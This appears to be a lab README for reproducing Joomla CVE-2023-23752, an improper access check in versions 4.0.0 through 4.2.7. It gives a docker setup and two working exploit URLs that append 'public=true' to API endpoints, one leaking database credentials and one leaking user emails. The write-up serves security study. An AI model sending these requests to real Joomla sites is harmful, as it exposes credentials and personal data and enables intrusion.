 # Joomla improper access check in webservice endpoints (CVE-2023-23752)

[中文版本(Chinese version)](README.zh-cn.md)

Joomla is a free and open-source content management system (CMS) that allows users to build websites and online applications. It was first released in 2005 and has since become one of the most popular CMS platforms, powering millions of websites around the world.

An issue was discovered in Joomla! 4.0.0 through 4.2.7. An improper access check allows unauthorized access to webservice endpoints.

References:

- <https://developer.joomla.org/security-centre/894-20230201-core-improper-access-check-in-webservice-endpoints.html>
- <https://xz.aliyun.com/t/12175>
- <https://vulncheck.com/blog/joomla-for-rce>

## Vulnerable Environment

Execute following command to start a Joomla site 4.2.7:

```
docker compose up -d
```

You can access the Joomla website through `http://your-ip:8080` after the server is started.

## Exploit

This issue is caused by an attribute overwrite issue, the attacker can use `public=true` to bypass the authorization check.

For example, expose all configuration including MySQL username and password through this link:

```
http://your-ip:8080/api/index.php/v1/config/application?public=true
```

![](1.png)

Otherwise access is unauthorized without `public=true`：

![](2.png)

Expose all users information including emails through this link:

```
http://your-ip:8080/api/index.php/v1/users?public=true
```

![](3.png)
